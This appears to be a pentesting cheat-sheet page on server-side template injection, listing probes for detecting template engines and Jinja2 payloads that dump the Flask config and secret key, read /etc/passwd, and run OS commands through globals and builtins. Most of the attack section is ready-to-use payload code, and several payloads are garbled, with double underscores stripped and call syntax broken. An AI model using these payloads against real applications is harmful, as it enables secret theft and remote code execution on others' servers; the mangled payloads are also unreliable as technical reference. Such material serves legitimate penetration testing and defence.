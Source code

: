 # SSTI

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

Step 1: Find an injection point, attempt basic payloads and see if app is vulnerable to SSTI.

Can be via input box, or in the URL

Basic Identification:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Exploit

### Jinja2

* Dump all the config variables, will show the secret key, if the variable is set

```
{{ config }} 
```

<figure><img src="../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Jinja Injection without \<class 'object'>&#x20;

* From the there is another way to get to RCE without using that class.&#x20;
* \*\*\*\*If you manage to get to any function from those globals objects, you will be able to access **globals**.**builtins** and from there the RCE is very simple.&#x20;
* You can find functions from the objects request, config and any other interesting global object you have access to with:&#x20;

```
{{ request.__class__.__dict__ }}
application
_load_form_data
on_json_loading_failed ​ {{ config.class.dict }}
init
from_envvar
from_pyfile
from_object
from_file
from_json
from_mapping
get_namespace
repr ​
# You can iterate through children objects to find more
```

* Once you have found some functions you can recover the builtins with:

```
# Read File
{{ request.class._load_form_data.globals.builtins.open("/etc/passwd").read() }} ​
# RCE
{{ config.class.from_envvar.globals.builtins.import("os").popen("ls").read() }} {{ config.class.from_envvar["globals"]["builtins"]"import".popen("ls").read() }} {{ (config|attr("class")).from_envvar["globals"]["builtins"]"import".popen("ls").read() }} ​
{{ a }}​ ## Extra ## The global from config have a access to a function called import_string ## with this function you don't need to access the builtins {{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }} ​ 
# All the bypasses seen in the previous sections are also valid
```

If it is, the next step is determining the engine that is running the application&#x20;

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

